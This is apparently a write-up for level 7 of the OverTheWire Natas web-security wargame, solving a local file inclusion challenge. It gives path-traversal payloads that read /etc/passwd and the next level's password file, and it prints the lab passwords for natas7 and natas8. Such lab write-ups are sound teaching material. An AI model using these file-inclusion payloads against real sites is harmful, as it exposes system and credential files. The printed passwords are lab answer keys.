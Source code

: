 # Level 7

URL : http://natas7.natas.labs.overthewire.org/

### Creds for natas7
**natas7:7z3hEENjQtflzgnT29q7wAvMNfZdh0i9**

## Solution 

This is clearly an LFI challenge.

- a comment in the page source says <!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->

we have two links :  

- [Home](http://natas7.natas.labs.overthewire.org/index.php?page=home)
- [About](http://natas7.natas.labs.overthewire.org/index.php?page=about)



payload 1: ../../../../../../etc/passwd ---> this will include /etc/passwd file

to get the password for natas8 we will use this payload : index.php?page=/etc/natas_webpass/natas8

this will include the file for us: 

**natas8:DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe**
